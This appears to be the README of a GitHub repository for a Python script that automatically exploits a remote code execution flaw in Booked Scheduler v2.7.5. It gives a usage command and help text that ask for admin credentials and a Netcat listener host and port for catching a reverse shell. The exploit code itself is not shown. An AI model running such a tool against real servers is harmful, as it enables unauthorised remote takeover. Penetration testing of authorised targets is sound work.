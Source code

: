 # bookedScheduler_v2.7.5_RCE
Automatic exploitation script written in python 3 to exploit "Book Scheduler v2.7.5"

<hr>

#### 1. Basic Usage: 
`$ python3 booked_sheduler.py --url http://127.0.0.1 -u <admin> -p <adminpass> -P <pentesterPort> -H <pentesterIP>`

#### 2. Help Menu:
```txt
usage: booked_scheduler.py [-h] [--url URL] [-u USER] [-p PASSWORD] [-P LPORT] [-H LHOST]

--- Booked Scheduler v2.7.5 ---

optional arguments:
  -h, --help            show this help message and exit
  --url URL             url (i.e http://192.168.167.64/booked/Web)
  -u USER, --user USER  ADMIN user
  -p PASSWORD, --password PASSWORD
                        ADMIN password
  -P LPORT, --lport LPORT
                        Netcat's port to catch reverse shell
  -H LHOST, --lhost LHOST
                        Netcat's host to catch reverse shell
```

#### 3. Example
![](example.gif)

